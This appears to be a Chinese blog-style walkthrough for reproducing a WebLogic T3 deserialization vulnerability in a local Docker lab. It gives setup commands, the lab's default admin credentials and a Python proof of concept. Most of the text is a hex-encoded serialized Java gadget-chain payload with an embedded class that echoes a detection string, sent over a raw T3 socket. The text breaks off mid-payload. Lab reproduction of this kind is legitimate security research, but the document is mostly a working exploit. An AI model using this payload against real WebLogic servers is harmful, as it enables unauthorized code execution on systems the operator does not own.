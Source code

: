 
# [](#weblogic-t3-%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0)Weblogic T3 反序列化漏洞复现

## [](#1-%E7%8E%AF%E5%A2%83%E6%90%AD%E5%BB%BA)1 环境搭建

### [](#11-%E7%8E%AF%E5%A2%83%E5%87%86%E5%A4%87)1.1 环境准备

Weblogic 环境采用 A-Team 的 docker 一键搭建：[https://github.com/QAX-A-Team/WeblogicEnvironment](https://github.com/QAX-A-Team/WeblogicEnvironment)

JDK 安装包下载地址：[https://www.oracle.com/technetwork/java/javase/archive-139210.html](https://www.oracle.com/technetwork/java/javase/archive-139210.html)

下载版本为：`jdk-7u21-linux-x64.tar.gz`

Weblogic 安装包下载地址：[https://www.oracle.com/technetwork/middleware/weblogic/downloads/wls-for-dev-1703574.html](https://www.oracle.com/technetwork/middleware/weblogic/downloads/wls-for-dev-1703574.html)

下载版本为：`fmw_12.1.3.0.0_wls.jar`

### [](#12-%E6%9E%84%E5%BB%BA%E9%95%9C%E5%83%8F)1.2 构建镜像

以 `Weblogic12.1.3` 配 `JDK 7u21` 为例，构建镜像命令如下：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```bash<br>docker build --build-arg JDK_PKG=jdk-7u21-linux-x64.tar.gz --build-arg WEBLOGIC_JAR=fmw_12.1.3.0.0_wls.jar  -t weblogic12013jdk7u21 .<br>``` |

镜像构建完成后，执行以下命令运行：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```bash<br>docker run -d -p 7001:7001 -p 8453:8453 -p 5556:5556 --name weblogic12013jdk7u21 weblogic12013jdk7u21<br>``` |

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20210419094631.png-water_print](assets/1699411396-52a58f3f263558738dbc45e170179f3d.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20210419094631.png-water_print")

运行后可访问`http://localhost:7001/console/login/LoginForm.jsp`登录到 Weblogic Server 管理控制台，默认用户名为`weblogic`,默认密码为`qaxateam01`

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20210419094417.png-water_print](assets/1699411396-bd3889ce9ac9b1b0b45bf3c229b052cd.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20210419094417.png-water_print")

## [](#2-%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0)2 漏洞复现

poc 如下，目前该 POC 只有回显：

|     |     |     |
| --- | --- | --- |
| ```plain<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>17<br>18<br>19<br>20<br>21<br>22<br>23<br>24<br>25<br>26<br>27<br>28<br>29<br>30<br>31<br>32<br>33<br>34<br>35<br>36<br>37<br>38<br>39<br>40<br>``` | ```python<br>#!/usr/bin/python<br>import socket<br>import os<br>import sys<br>import struct<br>import time<br># if len(sys.argv) < 2:<br>#    print 'Usage: python %s <TARGET_HOST> <PORT>' % os.path.basename(sys.argv[0])<br>#    sys.exit()<br><br>sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)<br>sock.settimeout(5)<br><br>server_address = ("127.0.0.1", 7001)<br># print '[+] Connecting to %s port %s' % server_address<br>sock.connect(server_address)<br><br># Send headers<br>headers='t3 9.2.0.0\nAS:255\nHL:92\nMS:10000000\nPU:t3://abcdefghijklmnabcdefghijklmnabcdefghijklmnabcdefghijklmnabcdefghijklmnabcdefghijklmn:7001\n\n'<br>print 'sending "%s"' % headers<br>sock.sendall(headers)<br><br>data = sock.recv(1024)<br>print >>sys.stderr, 'received "%s"' % data<br><br>payloadObj='\xac\xed\x00\x05\x73\x72\x00\x17\x6a\x61\x76\x61\x2e\x75\x74\x69\x6c\x2e\x4c\x69\x6e\x6b\x65\x64\x48\x61\x73\x68\x53\x65\x74\xd8\x6c\xd7\x5a\x95\xdd\x2a\x1e\x02\x00\x00\x78\x72\x00\x11\x6a\x61\x76\x61\x2e\x75\x74\x69\x6c\x2e\x48\x61\x73\x68\x53\x65\x74\xba\x44\x85\x95\x96\xb8\xb7\x34\x03\x00\x00\x78\x70\x77\x0c\x00\x00\x00\x10\x3f\x40\x00\x00\x00\x00\x00\x02\x73\x72\x00\x19\x6a\x61\x76\x61\x2e\x72\x6d\x69\x2e\x4d\x61\x72\x73\x68\x61\x6c\x6c\x65\x64\x4f\x62\x6a\x65\x63\x74\x7c\xbd\x1e\x97\xed\x63\xfc\x3e\x02\x00\x03\x49\x00\x04\x68\x61\x73\x68\x5b\x00\x08\x6c\x6f\x63\x42\x79\x74\x65\x73\x74\x00\x02\x5b\x42\x5b\x00\x08\x6f\x62\x6a\x42\x79\x74\x65\x73\x71\x00\x7e\x00\x04\x78\x70\xea\x0c\xa3\xad\x70\x75\x72\x00\x02\x5b\x42\xac\xf3\x17\xf8\x06\x08\x54\xe0\x02\x00\x00\x78\x70\x00\x00\x10\xea\xac\xed\x00\x05\x73\x72\x00\x17\x6a\x61\x76\x61\x2e\x75\x74\x69\x6c\x2e\x4c\x69\x6e\x6b\x65\x64\x48\x61\x73\x68\x53\x65\x74\xd8\x6c\xd7\x5a\x95\xdd\x2a\x1e\x02\x00\x00\x78\x72\x00\x11\x6a\x61\x76\x61\x2e\x75\x74\x69\x6c\x2e\x48\x61\x73\x68\x53\x65\x74\xba\x44\x85\x95\x96\xb8\xb7\x34\x03\x00\x00\x78\x70\x77\x0c\x00\x00\x00\x10\x3f\x40\x00\x00\x00\x00\x00\x02\x73\x72\x00\x3a\x63\x6f\x6d\x2e\x73\x75\x6e\x2e\x6f\x72\x67\x2e\x61\x70\x61\x63\x68\x65\x2e\x78\x61\x6c\x61\x6e\x2e\x69\x6e\x74\x65\x72\x6e\x61\x6c\x2e\x78\x73\x6c\x74\x63\x2e\x74\x72\x61\x78\x2e\x54\x65\x6d\x70\x6c\x61\x74\x65\x73\x49\x6d\x70\x6c\x09\x57\x4f\xc1\x6e\xac\xab\x33\x03\x00\x08\x49\x00\x0d\x5f\x69\x6e\x64\x65\x6e\x74\x4e\x75\x6d\x62\x65\x72\x49\x00\x0e\x5f\x74\x72\x61\x6e\x73\x6c\x65\x74\x49\x6e\x64\x65\x78\x5a\x00\x15\x5f\x75\x73\x65\x53\x65\x72\x76\x69\x63\x65\x73\x4d\x65\x63\x68\x61\x6e\x69\x73\x6d\x4c\x00\x0b\x5f\x61\x75\x78\x43\x6c\x61\x73\x73\x65\x73\x74\x00\x3b\x4c\x63\x6f\x6d\x2f\x73\x75\x6e\x2f\x6f\x72\x67\x2f\x61\x70\x61\x63\x68\x65\x2f\x78\x61\x6c\x61\x6e\x2f\x69\x6e\x74\x65\x72\x6e\x61\x6c\x2f\x78\x73\x6c\x74\x63\x2f\x72\x75\x6e\x74\x69\x6d\x65\x2f\x48\x61\x73\x68\x74\x61\x62\x6c\x65\x3b\x5b\x00\x0a\x5f\x62\x79\x74\x65\x63\x6f\x64\x65\x73\x74\x00\x03\x5b\x5b\x42\x5b\x00\x06\x5f\x63\x6c\x61\x73\x73\x74\x00\x12\x5b\x4c\x6a\x61\x76\x61\x2f\x6c\x61\x6e\x67\x2f\x43\x6c\x61\x73\x73\x3b\x4c\x00\x05\x5f\x6e\x61\x6d\x65\x74\x00\x12\x4c\x6a\x61\x76\x61\x2f\x6c\x61\x6e\x67\x2f\x53\x74\x72\x69\x6e\x67\x3b\x4c\x00\x11\x5f\x6f\x75\x74\x70\x75\x74\x50\x72\x6f\x70\x65\x72\x74\x69\x65\x73\x74\x00\x16\x4c\x6a\x61\x76\x61\x2f\x75\x74\x69\x6c\x2f\x50\x72\x6f\x70\x65\x72\x74\x69\x65\x73\x3b\x78\x70\x00\x00\x00\x00\xff\xff\xff\xff\x00\x70\x75\x72\x00\x03\x5b\x5b\x42\x4b\xfd\x19\x15\x67\x67\xdb\x37\x02\x00\x00\x78\x70\x00\x00\x00\x01\x75\x72\x00\x02\x5b\x42\xac\xf3\x17\xf8\x06\x08\x54\xe0\x02\x00\x00\x78\x70\x00\x00\x0d\x7a\xca\xfe\xba\xbe\x00\x00\x00\x32\x00\xac\x0a\x00\x26\x00\x5a\x0a\x00\x5b\x00\x5c\x0a\x00\x5b\x00\x5d\x08\x00\x5e\x0a\x00\x5f\x00\x60\x08\x00\x61\x07\x00\x62\x0a\x00\x07\x00\x63\x07\x00\x64\x0a\x00\x65\x00\x66\x09\x00\x67\x00\x68\x0a\x00\x69\x00\x6a\x08\x00\x6b\x07\x00\x4d\x0a\x00\x09\x00\x6c\x08\x00\x6d\x0a\x00\x07\x00\x6e\x0a\x00\x6f\x00\x70\x0a\x00\x6f\x00\x71\x0a\x00\x07\x00\x72\x08\x00\x73\x07\x00\x74\x0a\x00\x16\x00\x75\x08\x00\x76\x07\x00\x3d\x08\x00\x77\x07\x00\x78\x08\x00\x79\x0a\x00\x7a\x00\x7b\x0a\x00\x1b\x00\x7c\x0a\x00\x1b\x00\x7d\x08\x00\x7e\x0a\x00\x69\x00\x7f\x0a\x00\x25\x00\x80\x07\x00\x81\x0a\x00\x23\x00\x82\x07\x00\x83\x07\x00\x84\x01\x00\x06\x3c\x69\x6e\x69\x74\x3e\x01\x00\x03\x28\x29\x56\x01\x00\x04\x43\x6f\x64\x65\x01\x00\x0f\x4c\x69\x6e\x65\x4e\x75\x6d\x62\x65\x72\x54\x61\x62\x6c\x65\x01\x00\x12\x4c\x6f\x63\x61\x6c\x56\x61\x72\x69\x61\x62\x6c\x65\x54\x61\x62\x6c\x65\x01\x00\x04\x74\x68\x69\x73\x01\x00\x13\x4c\x73\x75\x70\x65\x72\x6d\x61\x6e\x2f\x45\x63\x68\x6f\x54\x65\x73\x74\x3b\x01\x00\x09\x74\x72\x61\x6e\x73\x66\x6f\x72\x6d\x01\x00\x72\x28\x4c\x63\x6f\x6d\x2f\x73\x75\x6e\x2f\x6f\x72\x67\x2f\x61\x70\x61\x63\x68\x65\x2f\x78\x61\x6c\x61\x6e\x2f\x69\x6e\x74\x65\x72\x6e\x61\x6c\x2f\x78\x73\x6c\x74\x63\x2f\x44\x4f\x4d\x3b\x5b\x4c\x63\x6f\x6d\x2f\x73\x75\x6e\x2f\x6f\x72\x67\x2f\x61\x70\x61\x63\x68\x65\x2f\x78\x6d\x6c\x2f\x69\x6e\x74\x65\x72\x6e\x61\x6c\x2f\x73\x65\x72\x69\x61\x6c\x69\x7a\x65\x72\x2f\x53\x65\x72\x69\x61\x6c\x69\x7a\x61\x74\x69\x6f\x6e\x48\x61\x6e\x64\x6c\x65\x72\x3b\x29\x56\x01\x00\x08\x64\x6f\x63\x75\x6d\x65\x6e\x74\x01\x00\x2d\x4c\x63\x6f\x6d\x2f\x73\x75\x6e\x2f\x6f\x72\x67\x2f\x61\x70\x61\x63\x68\x65\x2f\x78\x61\x6c\x61\x6e\x2f\x69\x6e\x74\x65\x72\x6e\x61\x6c\x2f\x78\x73\x6c\x74\x63\x2f\x44\x4f\x4d\x3b\x01\x00\x08\x68\x61\x6e\x64\x6c\x65\x72\x73\x01\x00\x42\x5b\x4c\x63\x6f\x6d\x2f\x73\x75\x6e\x2f\x6f\x72\x67\x2f\x61\x70\x61\x63\x68\x65\x2f\x78\x6d\x6c\x2f\x69\x6e\x74\x65\x72\x6e\x61\x6c\x2f\x73\x65\x72\x69\x61\x6c\x69\x7a\x65\x72\x2f\x53\x65\x72\x69\x61\x6c\x69\x7a\x61\x74\x69\x6f\x6e\x48\x61\x6e\x64\x6c\x65\x72\x3b\x01\x00\x0a\x45\x78\x63\x65\x70\x74\x69\x6f\x6e\x73\x07\x00\x85\x01\x00\xa6\x28\x4c\x63\x6f\x6d\x2f\x73\x75\x6e\x2f\x6f\x72\x67\x2f\x61\x70\x61\x63\x68\x65\x2f\x78\x61\x6c\x61\x6e\x2f\x69\x6e\x74\x65\x72\x6e\x61\x6c\x2f\x78\x73\x6c\x74\x63\x2f\x44\x4f\x4d\x3b\x4c\x63\x6f\x6d\x2f\x73\x75\x6e\x2f\x6f\x72\x67\x2f\x61\x70\x61\x63\x68\x65\x2f\x78\x6d\x6c\x2f\x69\x6e\x74\x65\x72\x6e\x61\x6c\x2f\x64\x74\x6d\x2f\x44\x54\x4d\x41\x78\x69\x73\x49\x74\x65\x72\x61\x74\x6f\x72\x3b\x4c\x63\x6f\x6d\x2f\x73\x75\x6e\x2f\x6f\x72\x67\x2f\x61\x70\x61\x63\x68\x65\x2f\x78\x6d\x6c\x2f\x69\x6e\x74\x65\x72\x6e\x61\x6c\x2f\x73\x65\x72\x69\x61\x6c\x69\x7a\x65\x72\x2f\x53\x65\x72\x69\x61\x6c\x69\x7a\x61\x74\x69\x6f\x6e\x48\x61\x6e\x64\x6c\x65\x72\x3b\x29\x56\x01\x00\x08\x69\x74\x65\x72\x61\x74\x6f\x72\x01\x00\x35\x4c\x63\x6f\x6d\x2f\x73\x75\x6e\x2f\x6f\x72\x67\x2f\x61\x70\x61\x63\x68\x65\x2f\x78\x6d\x6c\x2f\x69\x6e\x74\x65\x72\x6e\x61\x6c\x2f\x64\x74\x6d\x2f\x44\x54\x4d\x41\x78\x69\x73\x49\x74\x65\x72\x61\x74\x6f\x72\x3b\x01\x00\x07\x68\x61\x6e\x64\x6c\x65\x72\x01\x00\x41\x4c\x63\x6f\x6d\x2f\x73\x75\x6e\x2f\x6f\x72\x67\x2f\x61\x70\x61\x63\x68\x65\x2f\x78\x6d\x6c\x2f\x69\x6e\x74\x65\x72\x6e\x61\x6c\x2f\x73\x65\x72\x69\x61\x6c\x69\x7a\x65\x72\x2f\x53\x65\x72\x69\x61\x6c\x69\x7a\x61\x74\x69\x6f\x6e\x48\x61\x6e\x64\x6c\x65\x72\x3b\x01\x00\x04\x65\x63\x68\x6f\x01\x00\x03\x62\x75\x66\x01\x00\x02\x5b\x42\x01\x00\x03\x6f\x75\x74\x01\x00\x16\x4c\x6a\x61\x76\x61\x2f\x69\x6f\x2f\x4f\x75\x74\x70\x75\x74\x53\x74\x72\x65\x61\x6d\x3b\x01\x00\x01\x73\x01\x00\x12\x4c\x6a\x61\x76\x61\x2f\x6c\x61\x6e\x67\x2f\x4f\x62\x6a\x65\x63\x74\x3b\x01\x00\x01\x66\x01\x00\x19\x4c\x6a\x61\x76\x61\x2f\x6c\x61\x6e\x67\x2f\x72\x65\x66\x6c\x65\x63\x74\x2f\x46\x69\x65\x6c\x64\x3b\x01\x00\x01\x6f\x01\x00\x03\x6c\x65\x6e\x01\x00\x04\x6c\x65\x6e\x31\x01\x00\x01\x49\x01\x00\x04\x76\x61\x72\x34\x01\x00\x03\x63\x6c\x73\x01\x00\x11\x4c\x6a\x61\x76\x61\x2f\x6c\x61\x6e\x67\x2f\x43\x6c\x61\x73\x73\x3b\x01\x00\x03\x6e\x69\x6f\x01\x00\x02\x73\x73\x01\x00\x13\x5b\x4c\x6a\x61\x76\x61\x2f\x6c\x61\x6e\x67\x2f\x4f\x62\x6a\x65\x63\x74\x3b\x01\x00\x04\x76\x61\x72\x36\x01\x00\x04\x76\x61\x72\x35\x01\x00\x0d\x53\x74\x61\x63\x6b\x4d\x61\x70\x54\x61\x62\x6c\x65\x07\x00\x62\x07\x00\x64\x01\x00\x08\x3c\x63\x6c\x69\x6e\x69\x74\x3e\x01\x00\x04\x76\x61\x72\x33\x01\x00\x15\x4c\x6a\x61\x76\x61\x2f\x6c\x61\x6e\x67\x2f\x45\x78\x63\x65\x70\x74\x69\x6f\x6e\x3b\x01\x00\x04\x76\x61\x72\x32\x07\x00\x81\x01\x00\x0a\x53\x6f\x75\x72\x63\x65\x46\x69\x6c\x65\x01\x00\x22\x45\x63\x68\x6f\x54\x65\x73\x74\x2e\x6a\x61\x76\x61\x20\x66\x72\x6f\x6d\x20\x49\x6e\x70\x75\x74\x46\x69\x6c\x65\x4f\x62\x6a\x65\x63\x74\x0c\x00\x27\x00\x28\x07\x00\x86\x0c\x00\x87\x00\x88\x0c\x00\x89\x00\x8a\x01\x00\x1b\x77\x65\x62\x6c\x6f\x67\x69\x63\x2e\x73\x6f\x63\x6b\x65\x74\x2e\x53\x6f\x63\x6b\x65\x74\x4d\x75\x78\x65\x72\x07\x00\x8b\x0c\x00\x8c\x00\x8d\x01\x00\x08\x67\x65\x74\x4d\x75\x78\x65\x72\x01\x00\x0f\x6a\x61\x76\x61\x2f\x6c\x61\x6e\x67\x2f\x43\x6c\x61\x73\x73\x0c\x00\x8e\x00\x8f\x01\x00\x10\x6a\x61\x76\x61\x2f\x6c\x61\x6e\x67\x2f\x4f\x62\x6a\x65\x63\x74\x07\x00\x90\x0c\x00\x91\x00\x92\x07\x00\x93\x0c\x00\x3e\x00\x94\x07\x00\x95\x0c\x00\x96\x00\x97\x01\x00\x0a\x67\x65\x74\x53\x6f\x63\x6b\x65\x74\x73\x0c\x00\x98\x00\x99\x01\x00\x0a\x63\x6f\x6e\x6e\x65\x63\x74\x69\x6f\x6e\x0c\x00\x9a\x00\x9b\x07\x00\x9c\x0c\x00\x9d\x00\x9e\x0c\x00\x9f\x00\xa0\x0c\x00\xa1\x00\x99\x01\x00\x12\x72\x65\x6d\x6f\x74\x65\x48\x65\x61\x64\x65\x72\x4c\x65\x6e\x67\x74\x68\x01\x00\x11\x6a\x61\x76\x61\x2f\x6c\x61\x6e\x67\x2f\x49\x6e\x74\x65\x67\x65\x72\x0c\x00\xa2\x00\xa3\x01\x00\x09\x67\x65\x74\x42\x75\x66\x66\x65\x72\x01\x00\x0f\x67\x65\x74\x4f\x75\x74\x70\x75\x74\x53\x74\x72\x65\x61\x6d\x01\x00\x14\x6a\x61\x76\x61\x2f\x69\x6f\x2f\x4f\x75\x74\x70\x75\x74\x53\x74\x72\x65\x61\x6d\x01\x00\x13\x76\x75\x6c\x6e\x65\x72\x61\x62\x69\x6c\x69\x74\x79\x20\x65\x78\x69\x73\x74\x07\x00\xa4\x0c\x00\xa5\x00\xa6\x0c\x00\xa7\x00\xa8\x0c\x00\xa9\x00\x28\x01\x00\x07\x6f\x6e\x20\x65\x63\x68\x6f\x0c\x00\x96\x00\xaa\x0c\x00\x3b\x00\x28\x01\x00\x13\x6a\x61\x76\x61\x2f\x6c\x61\x6e\x67\x2f\x45\x78\x63\x65\x70\x74\x69\x6f\x6e\x0c\x00\xab\x00\x28\x01\x00\x11\x73\x75\x70\x65\x72\x6d\x61\x6e\x2f\x45\x63\x68\x6f\x54\x65\x73\x74\x01\x00\x40\x63\x6f\x6d\x2f\x73\x75\x6e\x2f\x6f\x72\x67\x2f\x61\x70\x61\x63\x68\x65\x2f\x78\x61\x6c\x61\x6e\x2f\x69\x6e\x74\x65\x72\x6e\x61\x6c\x2f\x78\x73\x6c\x74\x63\x2f\x72\x75\x6e\x74\x69\x6d\x65\x2f\x41\x62\x73\x74\x72\x61\x63\x74\x54\x72\x61\x6e\x73\x6c\x65\x74\x01\x00\x39\x63\x6f\x6d\x2f\x73\x75\x6e\x2f\x6f\x72\x67\x2f\x61\x70\x61\x63\x68\x65\x2f\x78\x61\x6c\x61\x6e\x2f\x69\x6e\x74\x65\x72\x6e\x61\x6c\x2f\x78\x73\x6c\x74\x63\x2f\x54\x72\x61\x6e\x73\x6c\x65\x74\x45\x78\x63\x65\x70\x74\x69\x6f\x6e\x01\x00\x10\x6a\x61\x76\x61\x2f\x6c\x61\x6e\x67\x2f\x54\x68\x72\x65\x61\x64\x01\x00\x0d\x63\x75\x72\x72\x65\x6e\x74\x54\x68\x72\x65\x61\x64\x01\x00\x14\x28\x29\x4c\x6a\x61\x76\x61\x2f\x6c\x61\x6e\x67\x2f\x54\x68\x72\x65\x61\x64\x3b\x01\x00\x15\x67\x65\x74\x43\x6f\x6e\x74\x65\x78\x74\x43\x6c\x61\x73\x73\x4c\x6f\x61\x64\x65\x72\x01\x00\x19\x28\x29\x4c\x6a\x61\x76\x61\x2f\x6c\x61\x6e\x67\x2f\x43\x6c\x61\x73\x73\x4c\x6f\x61\x64\x65\x72\x3b\x01\x00\x15\x6a\x61\x76\x61\x2f\x6c\x61\x6e\x67\x2f\x43\x6c\x61\x73\x73\x4c\x6f\x61\x64\x65\x72\x01\x00\x09\x6c\x6f\x61\x64\x43\x6c\x61\x73\x73\x01\x00\x25\x28\x4c\x6a\x61\x76\x61\x2f\x6c\x61\x6e\x67\x2f\x53\x74\x72\x69\x6e\x67\x3b\x29\x4c\x6a\x61\x76\x61\x2f\x6c\x61\x6e\x67\x2f\x43\x6c\x61\x73\x73\x3b\x01\x00\x09\x67\x65\x74\x4d\x65\x74\x68\x6f\x64\x01\x00\x40\x28\x4c\x6a\x61\x76\x61\x2f\x6c\x61\x6e\x67\x2f\x53\x74\x72\x69\x6e\x67\x3b\x5b\x4c\x6a\x61\x76\x61\x2f\x6c\x61\x6e\x67\x2f\x43\x6c\x61\x73\x73\x3b\x29\x4c\x6a\x61\x76\x61\x2f\x6c\x61\x6e\x67\x2f\x72\x65\x66\x6c\x65\x63\x74\x2f\x4d\x65\x74\x68\x6f\x64\x3b\x01\x00\x18\x6a\x61\x76\x61\x2f\x6c\x61\x6e\x67\x2f\x72\x65\x66\x6c\x65\x63\x74\x2f\x4d\x65\x74\x68\x6f\x64\x01\x00\x06\x69\x6e\x76\x6f\x6b\x65\x01\x00\x39\x28\x4c\x6a\x61\x76\x61\x2f\x6c\x61\x6e\x67\x2f\x4f\x62\x6a\x65\x63\x74\x3b\x5b\x4c\x6a\x61\x76\x61\x2f\x6c\x61\x6e\x67\x2f\x4f\x62\x6a\x65\x63\x74\x3b\x29\x4c\x6a\x61\x76\x61\x2f\x6c\x61\x6e\x67\x2f\x4f\x62\x6a\x65\x63\x74\x3b\x01\x00\x10\x6a\x61\x76\x61\x2f\x6c\x61\x6e\x67\x2f\x53\x79\x73\x74\x65\x6d\x01\x00\x15\x4c\x6a\x61\x76\x61\x2f\x69\x6f\x2f\x50\x72\x69\x6e\x74\x53\x74\x72\x65\x61\x6d\x3b\x01\x00\x13\x6a\x61\x76\x61\x2f\x69\x6f\x2f\x50\x72\x69\x6e\x74\x53\x74\x72\x65\x61\x6d\x01\x00\x07\x70\x72\x69\x6e\x74\x6c\x6e\x01\x00\x15\x28\x4c\x6a\x61\x76\x61\x2f\x6c\x61\x6e\x67\x2f\x4f\x62\x6a\x65\x63\x74\x3b\x29\x56\x01\x00\x08\x67\x65\x74\x43\x6c\x61\x73\x73\x01\x00\x13\x28\x29\x4c\x6a\x61\x76\x61\x2f\x6c\x61\x6e\x67\x2f\x43\x6c\x61\x73\x73\x3b\x01\x00\x10\x67\x65\x74\x44\x65\x63\x6c\x61\x72\x65\x64\x46\x69\x65\x6c\x64\x01\x00\x2d\x28\x4c\x6a\x61\x76\x61\x2f\x6c\x61\x6e\x67\x2f\x53\x74\x72\x69\x6e\x67\x3b\x29\x4c\x6a\x61\x76\x61\x2f\x6c\x61\x6e\x67\x2f\x72\x65\x66\x6c\x65\x63\x74\x2f\x46\x69\x65\x6c\x64\x3b\x01\x00\x17\x6a\x61\x76\x61\x2f\x6c\x61\x6e\x67\x2f\x72\x65\x66\x6c\x65\x63\x74\x2f\x46\x69\x65\x6c\x64\x01\x00\x0d\x73\x65\x74\x41\x63\x63\x65\x73\x73\x69\x62\x6c\x65\x01\x00\x04\x28\x5a\x29\x56\x01\x00\x03\x67\x65\x74\x01\x00\x26\x28\x4c\x6a\x61\x76\x61\x2f\x6c\x61\x6e\x67\x2f\x4f\x62\x6a\x65\x63\x74\x3b\x29\x4c\x6a\x61\x76\x61\x2f\x6c\x61\x6e\x67\x2f\x4f\x62\x6a\x65\x63\x74\x3b\x01\x00\x0d\x67\x65\x74\x53\x75\x70\x65\x72\x63\x6c\x61\x73\x73\x01\x00\x08\x69\x6e\x74\x56\x61\x6c\x75\x65\x01\x00\x03\x28\x29\x49\x01\x00\x10\x6a\x61\x76\x61\x2f\x6c\x61\x6e\x67\x2f\x53\x74\x72\x69\x6e\x67\x01\x00\x08\x67\x65\x74\x42\x79\x74\x65\x73\x01\x00\x04\x28\x29\x5b\x42\x01\x00\x05\x77\x72\x69\x74\x65\x01\x00\x05\x28\x5b\x42\x29\x56\x01\x00\x05\x66\x6c\x75\x73\x68\x01\x00\x15\x28\x4c\x6a\x61\x76\x61\x2f\x6c\x61\x6e\x67\x2f\x53\x74\x72\x69\x6e\x67\x3b\x29\x56\x01\x00\x0f\x70\x72\x69\x6e\x74\x53\x74\x61\x63\x6b\x54\x72\x61\x63\x65\x00\x21\x00\x25\x00\x26\x00\x00\x00\x00\x00\x05\x00\x01\x00\x27\x00\x28\x00\x01\x00\x29\x00\x00\x00\x33\x00\x01\x00\x01\x00\x00\x00\x05\x2a\xb7\x00\x01\xb1\x00\x00\x00\x02\x00\x2a\x00\x00\x00\x0a\x00\x02\x00\x00\x00\x22\x00\x04\x00\x23\x00\x2b\x00\x00\x00\x0c\x00\x01\x00\x00\x00\x05\x00\x2c\x00\x2d\x00\x00\x00\x01\x00\x2e\x00\x2f\x00\x02\x00\x29\x00\x00\x00\x3f\x00\x00\x00\x03\x00\x00\x00\x01\xb1\x00\x00\x00\x02\x00\x2a\x00\x00\x00\x06\x00\x01\x00\x00\x00\x28\x00\x2b\x00\x00\x00\x20\x00\x03\x00\x00\x00\x01\x00\x2c\x00\x2d\x00\x00\x00\x00\x00\x01\x00\x30\x00\x31\x00\x01\x00\x00\x00\x01\x00\x32\x00\x33\x00\x02\x00\x34\x00\x00\x00\x04\x00\x01\x00\x35\x00\x01\x00\x2e\x00\x36\x00\x02\x00\x29\x00\x00\x00\x49\x00\x00\x00\x04\x00\x00\x00\x01\xb1\x00\x00\x00\x02\x00\x2a\x00\x00\x00\x06\x00\x01\x00\x00\x00\x2d\x00\x2b\x00\x00\x00\x2a\x00\x04\x00\x00\x00\x01\x00\x2c\x00\x2d\x00\x00\x00\x00\x00\x01\x00\x30\x00\x31\x00\x01\x00\x00\x00\x01\x00\x37\x00\x38\x00\x02\x00\x00\x00\x01\x00\x39\x00\x3a\x00\x03\x00\x34\x00\x00\x00\x04\x00\x01\x00\x35\x00\x09\x00\x3b\x00\x28\x00\x02\x00\x29\x00\x00\x02\x0f\x00\x03\x00\x0d\x00\x00\x00\xf6\xb8\x00\x02\xb6\x00\x03\x12\x04\xb6\x00\x05\x4b\x2a\x12\x06\x03\xbd\x00\x07\xb6\x00\x08\x01\xc0\x00\x09\x03\xbd\x00\x09\xb6\x00\x0a\x4c\xb2\x00\x0b\x2b\xb6\x00\x0c\x2a\x12\x0d\x03\xbd\x00\x07\xb6\x00\x08\x2b\x03\xbd\x00\x09\xb6\x00\x0a\xc0\x00\x0e\xc0\x00\x0e\x4d\xb2\x00\x0b\x2c\xb6\x00\x0c\x2c\x4e\x2c\xbe\x36\x04\x03\x36\x05\x15\x05\x15\x04\xa2\x00\x9f\x2d\x15\x05\x32\x3a\x06\x19\x06\xb6\x00\x0f\x12\x10\xb6\x00\x11\x3a\x07\x19\x07\x04\xb6\x00\x12\x19\x07\x19\x06\xb6\x00\x13\x3a\x08\x19\x08\xb6\x00\x0f\xb6\x00\x14\x12\x15\xb6\x00\x11\x3a\x09\x19\x09\x04\xb6\x00\x12\x19\x09\x19\x08\xb6\x00\x13\xc0\x00\x16\xb6\x00\x17\x36\x0a\x15\x0a\x10\x5c\xa0\x00\x4d\x19\x06\xb6\x00\x0f\x12\x18\x03\xbd\x00\x07\xb6\x00\x08\x19\x06\x03\xbd\x00\x09\xb6\x00\x0a\xc0\x00\x19\xc0\x00\x19\x3a\x0b\x19\x06\xb6\x00\x0f\x12\x1a\x03\xbd\x00\x07\xb6\x00\x08\x19\x06\x03\xbd\x00\x09\xb6\x00\x0a\xc0\x00\x1b\x3a\x0c\x19\x0c\x12\x1c\xb6\x00\x1d\xb6\x00\x1e\x19\x0c\xb6\x00\x1f\x84\x05\x01\xa7\xff\x60\xb1\x00\x00\x00\x03\x00\x2a\x00\x00\x00\x5a\x00\x16\x00\x00\x00\x30\x00\x0c\x00\x31\x00\x22\x00\x32\x00\x29\x00\x33\x00\x42\x00\x34\x00\x49\x00\x35\x00\x4b\x00\x36\x00\x4f\x00\x38\x00\x59\x00\x39\x00\x5f\x00\x3a\x00\x6b\x00\x3b\x00\x71\x00\x3c\x00\x7a\x00\x3d\x00\x89\x00\x3e\x00\x8f\x00\x3f\x00\x9e\x00\x40\x00\xa5\x00\x41\x00\xc4\x00\x42\x00\xe0\x00\x43\x00\xea\x00\x44\x00\xef\x00\x38\x00\xf5\x00\x47\x00\x2b\x00\x00\x00\x84\x00\x0d\x00\xc4\x00\x2b\x00\x3c\x00\x3d\x00\x0b\x00\xe0\x00\x0f\x00\x3e\x00\x3f\x00\x0c\x00\x5f\x00\x90\x00\x40\x00\x41\x00\x06\x00\x6b\x00\x84\x00\x42\x00\x43\x00\x07\x00\x7a\x00\x75\x00\x44\x00\x41\x00\x08\x00\x89\x00\x66\x00\x45\x00\x43\x00\x09\x00\x9e\x00\x51\x00\x46\x00\x47\x00\x